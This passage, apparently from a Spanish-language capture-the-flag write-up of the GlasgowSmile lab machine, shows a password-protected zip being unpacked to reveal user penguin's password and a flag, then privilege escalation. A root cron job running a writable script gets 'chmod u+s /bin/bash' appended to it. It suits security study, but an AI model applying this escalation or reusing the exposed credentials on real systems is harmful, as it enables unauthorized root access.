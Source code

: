 ```bash
abner@glasgowsmile:~$ find / -type f -name "*penguin*" 2>/dev/null
/var/www/joomla2/administrator/manifests/files/.dear_penguins.zip
```

Copiamos el archivo zip, el mismo tiene clave, usamos la pass del usuario abner, funciona y validamos el contenido.

```bash
abner@glasgowsmile:~$ cp /var/www/joomla2/administrator/manifests/files/.dear_penguins.zip dear_penguins.zip
abner@glasgowsmile:~$ unzip dear_penguins.zip
Archive:  dear_penguins.zip
[dear_penguins.zip] dear_penguins password:
  inflating: dear_penguins
abner@glasgowsmile:~$ cat dear_penguins
My dear penguins, we stand on a great threshold! It's okay to be scared; many of you won't be coming back. Thanks to Batman, the time has come to punish all of God's children! First, second, third and fourth-born! Why be biased?! Male and female! Hell, the sexes are equal, with their erogenous zones BLOWN SKY-HIGH!!! FORWAAAAAAAAAAAAAARD MARCH!!! THE LIBERATION OF GOTHAM HAS BEGUN!!!!!
scf4W7q4B4caTMRhSFYmktMsn87F35UkmKttM5Bz
```

---

#### User PENGUIN

Tenemos la pass del usuario `penguin`, listamos la flag.

```bash
penguin@glasgowsmile:~$ cat SomeoneWhoHidesBehindAMask/user3.txt
JKR{284a3753ec11a592ee34098b8cb43d52}
```

## Escalación de privilegios

---

Somos `penguin`, el objetivo es convertirnos en root y listar la root flag.

Ejecutamos la herramienta [*pspy*](https://github.com/DominicBreuker/pspy).

Encontramos una tarea CRON generada por root, el cual ejecuta el archivo `.trash_old`.

```bash
2025/03/11 11:38:01 CMD: UID=0     PID=16839  | /bin/sh -c /home/penguin/SomeoneWhoHidesBehindAMask/.trash_old
```

Procedemos a modificar dicho archivo, agregamos código para añadir el `bit SUID` a la bash.

Listamos la root flag.

```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ cat .trash_old
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

chmod u+s /bin/bash
```